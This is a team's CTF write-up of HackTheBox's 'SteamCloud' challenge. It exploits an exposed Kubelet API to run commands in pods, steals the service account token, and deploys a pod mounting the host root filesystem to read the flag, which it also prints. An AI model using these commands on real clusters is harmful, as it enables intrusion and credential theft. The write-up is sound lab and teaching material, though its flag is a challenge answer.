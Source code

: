 # Uni CTF 2021 Quals

## SteamCloud Cloud category challenge write-up :

![Screen Shot 2021-11-22 at 1.28.11 PM.png](Uni%20CTF%202021%20Quals%20dc8e6360786143cc9d5deb9cf7d5bdc0/Screen_Shot_2021-11-22_at_1.28.11_PM.png)

Last weekend me and my team #Heaven's_Birds participated in Uni CTF 2021 Quals organized by @ HacktheBox .

From the description we knew we were dealing with a k8s cluster. First we attempted to scan the host address we got after starting the machine ( which was different than the node's address running the cluster).

![Screen Shot 2021-11-23 at 12.12.08 PM.png](Uni%20CTF%202021%20Quals%20dc8e6360786143cc9d5deb9cf7d5bdc0/Screen_Shot_2021-11-23_at_12.12.08_PM.png)

Basically we expected some K8s ports to be opened( See: [https://kubernetes.io/docs/reference/ports-and-protocols/](https://kubernetes.io/docs/reference/ports-and-protocols/) ), after running `nmap -sC -p-` on host and as expected we found the **Kubelet API** port opened **10250.**

We tried then to list existing pods by sending a get request to `[http://10.129.96.107:10250/pods](http://10.129.96.107:10250/pods)` , the response returned pods from `kube-system` namespace and one pod from `default` one. It was an nginx pod, and it also listed an interesting address `10.129.96.98` which was the address of the node running the cluster ( the cluster was deployed on a single machine using minikube so the master and worker node are the same machine).

After googling a lil bit we found this interesting tools to communicate with kubelet API **`Kubeletctl`**

After playing around lil bit with the tool, we run a scan for rce by issuing `kubeletctl scan rce` command. and the result was that nginx pod (and also kube-proxy) were vulnerable to remote code execution. Then we head to `/run/secrets/kubernetes.io/serviceaccount/` to grab the credentials for the default service account that we are going to use later when interacting with `***kube-apiserver.`*** 

A quick scan on the host address found before lists our famous `8443` kube-apiserver port. We can now use kubectl command and the token we grabbed before to interact with kube-apiserver.  

We also played with the command a lil bit trying to list pods and other resources , but we could only list cluster nodes and pods using:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
get nodes,pods --namespace=default`.**

We tried then to deploy a pod if we have permission to that, and it was successfully deployed , but we had one issue the pod kept showing `ImagePullBackOff`, we knew then the image is not going to be pulled so we decide to use an already pulled image from the nginx pod configuration, and our evil pod was like the following: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
  labels:
  name: evil-pod
  namespace: default
spec:
  containers:
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: evil-container
    volumeMounts:
    - mountPath: /host
      name: node-mount
  volumes:
  - name: node-mount
    hostPath:
      path: /
```

Our pod was successfully deployed and running, then we had back the our `kubeletclt` command to execute some commands on our pod, of course we tried to execute a shell on the pod but no luck:

**`kubectl  --insecure-skip-tls-verify=true --server="[https://$](https://%24/){IP_ADDRESS}:8443" \
--token="${TOKEN}" \
exec -it evil-pod --namespace=default -- /bin/sh` .**

The `kubeletctl -s 10.129.96.98 exec "ls -la /host" -p evil-pod -c evil-container`  command is to check that our hostPath was successfully mount on the node, and is was.

Then `kubeletctl -s 10.129.96.98 exec "ls -la /host/root/flag.txt" -p evil-pod -c evil-container` to cat the flag.

**HTB{d0n7_3Xpo53_Ku83L37}.**